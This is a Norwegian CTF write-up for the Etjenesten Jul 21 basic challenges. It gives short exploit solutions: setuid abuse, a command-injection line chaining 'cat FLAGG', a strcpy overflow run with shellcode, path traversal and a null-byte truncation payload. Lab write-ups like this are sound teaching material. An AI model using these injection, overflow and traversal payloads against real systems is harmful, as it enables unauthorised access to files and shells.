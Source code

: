 ```yaml
---
title: Etjenesten21 - Grunnleggende
date: 2022-01-17 12:00:00 +0100
categories: [Etjenesten, Etjenesten Jul 21]
tags: [ctf, etjenesten, suid, rev, pwn, python, "2021", NO]
img_path: /assets/img/etjenesten21/
---
```

# 1.1_scoreboard
Flagget nås ved `cat FLAGG`.

# 1.2_setuid
Flaggfilen eier vi ikke, men vi har en cat-kommando med setuid bit til den brukeren som eier filen. `./cat FLAGG`

# 1.3_injection
Binaryen *md5sum* har et setuid-bit satt for eieren av FLAGG. Vi kan kjøre `./md5sum FLAGG; cat FLAGG` for å få programmet til å printe flagget.

# 1.4_overflow
Vi finner ut ved å se på kildekoden at binaryen bruker *strcpy()*, som lar oss overflowe bufferet som lagrer inputen vår. Vi kan også se at variabelen *above* må ha verdien "ABCDEFGH". Hvis *above* er satt korrekt til koden hoppe til `prep_shellcode` siden det er dit `shellcode_ptr` peker. Koden i SHC-enviroment variabelen blir tilslutt i denne funksjonen returnert til, osm gir oss shell som `basic4` brukeren.
```shell
$ export SHC=$(cat sample_shellcode)
$ ./overflow "AA$(echo $SHC)ABCDEFGHaaaaaaaaaaaaaaaaaaaaaaaa000000"
```
{: .nolineno }

# 1.5_nettverk
Flagget kommer etter man har kommunisert med en server.
```python
import socket
import struct
import select

TCP_IP = "127.0.0.1"
TCP_PORT = 10015

def main():
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    conn.connect((TCP_IP, TCP_PORT))
    print(conn.recv(4096).decode("utf-8"))

    a = []
    for i in range(10):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((TCP_IP, TCP_PORT))
        a.append(s)
    print(conn.recv(4096).decode("utf-8"))

    sum = 0
    for b in range(len(a)):
        data = a[b].recv(4096)
        value = struct.unpack('>I',data)
        sum += value[0]

    conn.send(bytearray(struct.pack('>I', sum)))
    print(conn.recv(4096).decode("utf-8"))
    list = []
    while True:
        try:
            ready,_,_ = select.select(a, [], [], 10.0)
            for sock in ready:
                tpl = sock.recv(4096).decode("utf-8")
                list.append(tpl[0])
        except:
            break
    print("".join(list))

if __name__ == "__main__":
    main()
```

# 1.6_reversing
Ved å reversere filen *check_password* kan man se at:
- Passordet må være 32 bytes langt
- At de første 19 bokstavene er *Reverse_engineering*
- De neste bokstavene er *_er_* (hex tall gjort om til ascii)
- Slutter med bokstavene *morsomt__*
Strengen blir til slutt `Reverse_engineering_er_morsomt__`

Med Ghidra ser *check_password* slik ut:

![reversing](6_reversing.png)

# 1.7_path_traversal
Vi har et binary som leser filer i et directory som heter *bok*. Vi kan bruke path-traversal til å hoppe tilbake ett directory for å lese FLAGG-filen.
`./les_bok ../FLAGG`

# 1.8_bonusflagg
Det er et bonus flagg også. Vi kan se i c-koden til *les_bok* at det legges til en *.txt* på teksten vi sender som argument (fila vi vil lese). Vi kan terminere stringen før *.txt* blir lagt til med en url-enkodet null-byte, og lese flagget på samme måte som forrige.
`./les_bok ../BONUS_FLAGG%00`
